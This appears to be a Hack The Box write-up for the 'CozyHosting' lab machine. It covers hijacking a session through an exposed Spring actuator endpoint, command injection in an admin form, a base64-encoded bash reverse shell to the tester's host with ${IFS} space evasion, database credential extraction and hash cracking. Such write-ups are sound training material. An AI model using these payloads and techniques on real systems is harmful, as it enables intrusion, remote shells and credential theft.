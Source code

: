```yaml
---
slug: /write-up/htb/machines/easy/cozy-hosting
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Initial scans shows exposed ports 22 and 80

Looks like it's trying to redirect to `http://cozyhosting.htb`. Let's add it to the `/etc/hosts`

```bash
curl -I cozyhosting.htb
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 21 Sep 2023 19:13:45 GMT
Content-Type: text/html;charset=UTF-8
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Language: en-US
```

Let's try to explore the directories with gobuster and it could not find anything.

Checking the headers, looks like the Content-Type is application/json, so probably there's an API behind

Checking the error pages seems the one generated by Spring Framework. We can probe that by checking if it has the `/actuator` endpoint public.

Probably the nginx server is acting as a proxy since the actuator returns localhost:8080 as the API address

`/actuator/sessions` returns interesting data:

```
{"71555732BBE84C711A910118954B72C3":"kanderson","24BF9E9AC99A7F02F4006F36634DB3F1":"UNAUTHORIZED","3C47D6E35D00F4B01B7EF0EE5F3305FA":"UNAUTHORIZED","217ABE7CFC46C07AF69818945F9B702E":"kanderson"}
```

## Foothold

If we check the page, looks like there's a login page, if we change the `JSESSIONID` cookie by the value in the `/actuator/sessions` for user `kanderson`, we'll be redirected to the `/admin` page.

Once we enter the admin page we see a form that if we send it will call the `/executessh` endpoint ...

From the error, we could think that is calling the ssh command directly, so maybe this is vulnerable to command injection. We can try to get the output of `id` command.

Looks like hostname is validated somehow, however with username we can break the command execution:

```bash
curl -vvvvv 'http://cozyhosting.htb/executessh' -X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Cookie: JSESSIONID=B762D32C36AE8003E582400AC70E4261' \
--data-raw 'host=localhost&username=`id`'
```

It's pretty hard to know how to make the command execution works, you need to try several combinations with `\`` and `;` and eventually got it working. Now let's open a reverse shell. In order to get the reverse shell, take into account that username cannot have spaces, a minimal validation is done.


To generate the payload that generates the reverse shell:

1. Search a payload here: https://www.revshells.com/
```
/bin/bash -i >& /dev/tcp/10.10.14.183/4444 0>&1
```
2. Let's base64 it:
```
echo "bash -i >& /dev/tcp/10.10.14.183/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg==
```
3. Make the payload: echo the base64 payload, then base64 decode the payload and let bash run the payload:
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg== | base64 -d | bash
```
You can run that payload and it should create a new connection to the listening nc

4. The endpoint don't link spaces, so let's replace it for the IFS character:

`echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`

However, if we try that payload, it will complain about whitespaces...

5. Do URL-encode and it will work

Now we have foot-hold in the machine but without a relevant user

## Lateral movement

if we do ls we can see a jarfile, let's download it. Searching inside the jar file, we see a promising thing, the configuration for the postgres database:

```conf
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```bash
psql --user postgres --host localhost --port 5432 --password
```

We can find the users database:

```bash
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
```

The password for `kanderson` can be seen in the code and is `MRdEQuv6~6P9`

Nothing seems to indicate the password for user `josh`. Let's try to crack the password for admin with john the ripper:

```bash
john exfil/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

With that password, we can now enter the ssh with user `josh` and we are in and we can read the user flag.

## Privilege escalation

`sudo -l` shows that the user `josh` can run ssh with root privileges, let's check in GTFO bins how to use it to get root access.
